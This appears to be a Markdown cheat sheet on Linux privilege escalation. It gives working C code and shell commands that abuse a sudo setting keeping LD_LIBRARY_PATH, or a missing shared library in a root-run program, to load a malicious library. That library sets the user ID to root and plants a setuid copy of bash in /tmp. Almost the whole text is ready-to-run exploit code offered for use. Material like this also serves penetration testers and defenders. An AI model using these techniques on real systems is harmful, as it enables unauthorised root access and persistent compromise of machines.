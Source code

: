 ## `LD_LIBRARY_PATH` exploit
- If `env_keep+=LD_LIBRARY_PATH` is set use this exploit.
- Pick the shared library to replace:
```bash
ldd <sudo_program>
```
- `ld_library_path_exploit.c`:
```C
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor))

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash"); // Or /bin/bash -p
}
```
- Or create the file in one line:
```bash
echo -e "#include <stdio.h>\n#include <stdlib.h>\nstatic void hijack() __attribute__((constructor))\nvoid hijack() {\nunsetenv("LD_LIBRARY_PATH");\nsetresuid(0,0,0);\nsystem(\"cp /bin/bash /tmp/bash && chmod +s /tmp/bash\");}" > ld_library_path_exploit.c
```
- Compile it:
```bash
gcc -shared -fPIC -o ./<picked_library_name> ld_library_path_exploit.c
```
- Run sudo program with `LD_LIBRARY_PATH`:
```bash
sudo LD_LIBRARY_PATH=. <sudo_program>
```

## Compiling a shared library running bash shell
- Use `strace` to search for not found shared libraries in the application running by root.
- `bash_shared.c`:
```C
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject() {
	setuid(0);
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash"); // Or /bin/bash -p
}
```
- Or create the file in one line:
```bash
echo -e "#include <stdio.h>\n#include <stdlib.h>\nstatic void inject() __attribute__((constructor));\nvoid inject() {\nsetuid(0);\nsystem(\"cp /bin/bash /tmp/bash && chmod +s /tmp/bash\");}" > bash_shared.c
```
- Compile it to the .so shared library file:
```bash
gcc -shared -fPIC -o <library_name>.so bash_shared.c
```
